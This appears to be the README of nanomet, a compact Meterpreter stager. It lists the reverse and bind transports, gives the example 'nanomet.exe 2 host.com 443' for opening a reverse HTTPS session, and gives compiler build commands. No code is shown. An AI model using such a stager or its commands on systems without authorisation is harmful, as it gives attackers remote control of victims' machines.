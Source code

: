 nanomet
=======

A "nano" meterpreter stager.  Copyright (c) 2014, Vlatko Kosturjak - kost
nanomet is tinymet modified to support compiling using mingw compilers.

Based on tinymet by Copyright (c) 2014, Sherif Eldeeb "eldeeb.net"
please visit http://tinymet.com for details

Usage
=======

Usage: nanomet.exe [transport] LHOST LPORT

Available transports are as follows:

* 0: reverse_tcp
* 1: reverse_http
* 2: reverse_https
* 3: bind_tcp

Example
========

nanomet.exe 2 host.com 443

will use reverse_https and connect to host.com:443

Building
========

Linux: 

make CC=i586-mingw32msvc-gcc

Mac OS X:

make CC=i386-mingw32-gcc

Microsoft Windows / Visual C++:

nmake /f Makefile.vc


